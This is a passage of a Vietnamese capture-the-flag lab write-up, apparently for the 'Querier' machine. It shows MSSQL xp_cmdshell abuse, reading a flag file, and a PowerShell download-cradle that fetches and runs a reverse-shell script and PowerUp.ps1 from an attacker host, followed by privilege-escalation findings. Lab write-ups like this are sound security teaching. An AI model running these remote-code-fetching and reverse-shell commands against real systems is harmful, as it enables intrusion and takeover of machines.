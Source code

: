 ```bash
```

Ta có thể kiểm tra liệu user hiện tại có phải system admin không: 

```bash
SQL (QUERIER\mssql-svc  dbo@master)> select IS_SRVROLEMEMBER('sysadmin')
    
-   
1
```

Thực hiện lấy flag của user:

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell type c:\users\mssql-svc\desktop\user.txt
output                             
--------------------------------   
e9090a6c97e49fbf8ab6058e6a0110e4   

NULL
```

## 1.3 Privilege Escalation

### Reverse Shell

Đầu tiên ta cần phải móc reverse shell về để chạy script tìm hướng leo quyền. Ở trên máy attacker: 

- Tạo shell móc ngược kết nối ở port 8000
- Lắng nghe ở port 8000 với command `rlwrap -cAr nc -lvp 8000`
- Tạo HTTP server port 80 với command `sudo python3 -m http.server 80`

Chạy lệnh để lấy file từ máy attacker: 

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell powershell IEX(New-Object Net.WebClient).downloadstring(\"http://10.10.14.5/shell.ps1\")
```

→ Đã có reverse shell

### PowerUp - Collect Credentials

Tải script `PowerUp.ps1` về máy nạn nhân để tìm các credentials và hướng đi có thể leo quyền

```bash
PS C:\Windows\system32>IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.16/PowerUp.ps1')
```

Thực thi với command: `Invoke-AllChecks`

Kết quả sau khi script `PowerUp.ps1` được thực thi: 

```bash
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2432
ProcessId   : 312
Name        : 312
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

```